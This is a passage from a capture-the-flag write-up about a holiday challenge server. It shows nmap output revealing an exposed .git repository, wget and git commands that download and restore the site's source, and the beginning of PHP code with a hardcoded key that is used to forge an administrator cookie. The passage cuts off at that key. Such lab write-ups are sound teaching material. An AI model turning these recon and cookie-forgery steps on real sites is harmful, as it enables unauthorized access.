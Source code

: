 First we nmap the server:

	❯ nmap -sC 104.198.252.157
	Starting Nmap 7.40 ( https://nmap.org ) at 2017-01-05 05:09 CET
	Nmap scan report for 157.252.198.104.bc.googleusercontent.com (104.198.252.157)
	Host is up (0.20s latency).
	Not shown: 998 filtered ports
	PORT    STATE SERVICE
	22/tcp  open  ssh
	| ssh-hostkey: 
	|   1024 5d:5c:37:9c:67:c2:40:94:b0:0c:80:63:d4:ea:80:ae (DSA)
	|   2048 f2:25:e1:9f:ff:fd:e3:6e:94:c6:76:fb:71:01:e3:eb (RSA)
	|_  256 4c:04:e4:25:7f:a1:0b:8c:12:3c:58:32:0f:dc:51:bd (ECDSA)
	443/tcp open  https
	| http-git: 
	|   104.198.252.157:443/.git/
	|     Git repository found!
	|     Repository description: Unnamed repository; edit this file 'description' to name the...
	|_    Last commit message: Finishing touches (style, css, etc) 
	| http-title: Sprusage Usage Reporter!
	|_Requested resource was login.php
	| ssl-cert: Subject: commonName=analytics.northpolewonderland.com
	| Subject Alternative Name: DNS:analytics.northpolewonderland.com
	| Not valid before: 2016-12-07T17:35:00
	|_Not valid after:  2017-03-07T17:35:00
	|_ssl-date: TLS randomness does not represent time
	| tls-nextprotoneg: 
	|_  http/1.1


And get that there is a git repository there, so we download it, and restore the deleted files:

	❯ wget -r --no-parent https://analytics.northpolewonderland.com/.git/
	❯ cd analytics.northpolewonderland.com 
	❯ git checkout -- .

We see that edit.php is only accessible for the administrator user, but the code for generating the cookies is also available for us, so we can create our own:

	<?php

		define('KEY', "\x61\x17\xa4\x95\xbf\x3d\xd7\xcd\x2e\x0d\x8b\xcb\x9f\x79\xe1\xdc");
